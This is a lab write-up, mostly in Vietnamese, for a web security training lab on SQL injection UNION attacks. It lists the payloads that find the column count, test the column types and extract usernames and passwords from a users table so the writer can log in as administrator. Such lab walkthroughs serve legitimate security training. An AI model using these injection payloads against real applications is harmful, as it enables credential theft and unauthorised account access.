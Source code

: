 # Lab: SQL injection UNION attack, retrieving data from other tables

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Overview:

Ở lab lần này, ta thực hiện UNION Attack vào lỗ hổng ở filter category để lấy được `username` và `password` 

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/231927391-27f2b311-0b6a-435b-a93d-86775e22985c.png)

# Solution

Bước đầu ta cần xác định số cột ở phần filter category trước

`'+UNION+SELECT+NULL,NULL--`

![image](https://user-images.githubusercontent.com/115911041/231928102-aecd466b-985b-4e75-8030-9d150bd72184.png)

Ta thấy có 2 collums. Bởi vì `username` và `password` là thuộc kiểu dạng text nên collums sẽ bao gồm dạng text, nên ta sử dụng UNION ATTACK với giá trị khác

`'+UNION+SELECT+'a','b'--`

![image](https://user-images.githubusercontent.com/115911041/231928436-3b07347b-262a-4a6f-9af3-0a3396b7c643.png)

Vậy là giờ ta có thể lấy được `username` và `password` rồi

`+UNION+SELECT+username,password+FROM+users--`

![image](https://user-images.githubusercontent.com/115911041/231929111-4e99eb40-0500-474b-9219-e97e765dabaa.png)

Theo đề bài ta cần log in là `administrator`

![image](https://user-images.githubusercontent.com/115911041/231928935-7ca985a8-e810-4de2-b022-068b431e405a.png)
